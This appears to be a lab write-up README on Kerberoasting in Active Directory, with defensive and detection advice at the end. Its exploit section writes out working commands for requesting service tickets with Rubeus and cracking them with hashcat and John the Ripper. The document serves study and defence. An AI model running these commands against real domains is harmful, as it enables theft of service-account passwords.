 # Kerberoasting

## Objective

Kerberos uses Service Principal Names (SPNs) to link service instances to logon accounts, allowing client applications to request authentication without knowing the account name. Kerberoasting exploits this by obtaining a Ticket Granting Service (TGS) ticket, which is encrypted with the service account's NTLM hash, and then performing offline password cracking.

### Skills Learned

- Active Directory
- Domain Policy
- Domain Functional Levels
- Password Policy
- Kerberos Delegation

### Tools Used

- Windows Server DC
- PKI
- Kali Linux
- Rubeus
- Hashcat
- Event Viewer

## Exploit
  Rubeus can be used to obtain crackable tickets.
  ```
  Rubeus.exe kerberoast /outfile:spn.txt
  ```
  INSERT SCREEN SHOT
  
Once the tickets are obtained then it's time to crack them.  We can use two tools for this:
  - Hashcat
  - JackTheRipper

#### Hashcat
  This is possible using mode (-m) 13100 for a Kerberoastable TGS (Ticket Granting Service).
  
  ``` hashcat -m 13100 -a 0 spn.txt passwords.txt --outfile="cracked.txt``` -- If hashcat gives an error the option.
  ```--force``` may be necessary.
  
  Once Hashcat finishes cracking, the output will show the password in plain text:
  INSERT SCREENSHOT

#### John The Ripper
  Captured TGS hashes can be cracked just the same:
  ```
  sudo john spn.txt --fork=4 --format=krb5tgs --wordlist=passwords.txt --pot=results.pot
  ```
  INSERT SCREENSHOT

  
## Defending

  - Limits SPN usage and disable those no longer needed/used.
  - Strong passwords are required (100+ characters)
  - Use Group Managed Service Accounts (GMSA) whenever possible.

## Detection

  -  Event ID 4769 should return the following useful information:
    ![image](https://github.com/user-attachments/assets/61991542-10d9-4dbd-91c8-242504c342db)
  - A honeypot account 2+ years old with a difficult to break password is a perfect detection option in an AD environment.
  - Assign some privs to make the account interesting and must have an SPn registered.
  - ANY activity in this account, successful or not, is suspicious and should be alerted. 
